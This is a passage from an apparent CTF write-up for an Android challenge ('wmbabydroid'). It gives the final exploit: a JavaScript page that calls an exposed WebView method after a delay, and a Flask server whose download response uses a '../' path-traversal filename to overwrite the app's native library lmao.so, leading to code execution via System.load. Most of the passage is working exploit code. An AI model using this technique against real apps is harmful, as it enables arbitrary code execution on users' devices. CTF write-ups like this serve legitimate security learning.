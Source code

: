 We need delay 2 seconds to trigger the System.load, before we success overwrite the file.

```Python
<h1>poc1</h1>
<script>
    function sleep(time) {
        return new Promise((resolve) => setTimeout(resolve, time));
    }
    sleep(2000).then(() => {
        window.lmao.lmao();
    })
    location.href = "/download"
</script>
```

#### Final EXP

server.py

```Java
import os
from flask import Flask, abort, Response, request, make_response, send_from_directory
import logging
import requests
from hashlib import md5
from gevent import pywsgi
import base64
import traceback
import json
app = Flask(__name__)

@app.route("/download", methods=['GET'])
def download():
    response = make_response(send_from_directory(os.getcwd(), 'exp.so', as_attachment=True))
    response.headers["Content-Disposition"] = "attachment; filename={}".format("../"*15+"data/data/com.wmctf.wmbabydroid/files/lmao.so")
    return response

@app.route('/', methods=['GET'])
def index():
    return """\
<h1>poc1</h1>
<script>
    function sleep(time) {
        return new Promise((resolve) => setTimeout(resolve, time));
    }
    sleep(2000).then(() => {
        window.lmao.lmao();
    })
    location.href = "/download"
</script>
"""

# @app.route('/log', methods=['GET'])
# def log():
#     print(request.args)
#     print(request.headers)

if __name__ == "__main__":
    print("http://127.0.0.1/")
    server = pywsgi.WSGIServer(('0.0.0.0', 80), app)
    server.serve_forever()

# adb shell su root am broadcast -a com.wuhengctf.SET_FLAG -n com.wuhengctf.wuhengdroid5/.FlagReceiver -e flag 'flag{t12312312312}'
```